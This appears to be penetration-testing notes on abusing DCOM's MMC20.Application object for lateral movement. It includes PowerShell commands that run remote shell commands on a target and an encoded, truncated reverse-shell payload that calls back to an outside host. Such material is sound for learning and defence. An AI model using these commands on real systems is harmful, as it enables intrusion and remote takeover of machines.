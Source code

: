 DCOM is the `Distributed Component Object Model`. It is an extension of COM which is a system for creating software components that interact with each other via same process or cross process interaction. DCOM extends this to include interaction between multiple computers over a network.

DCOM is performed over RPC on TCP port 135.

It requires local administrator access to call the DCOM Service Control Manager - which is essentially an API.

more information about lateral movement using DCOM here: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

we can use the Microsoft Management Console (MMC) COM application to abuse this technology. MMC is used for scripted automation of windows systems. The MMC application class allows us to create application objects which expose the `ExecuteShellCommand` method.

This method allows us to execute any shell command as long as the authenticated user is authorized (default for local admins).

using an elevated powershell prompt we instantiate a remote MMC 2.0 application:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","TARGET_IP"))
```

Once the application object is saved into the _$dcom_ variable, we can pass the required argument to the application via the [**ExecuteShellCommand**](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand) method:
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

we can then use this method to spawn a reverse-shell:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

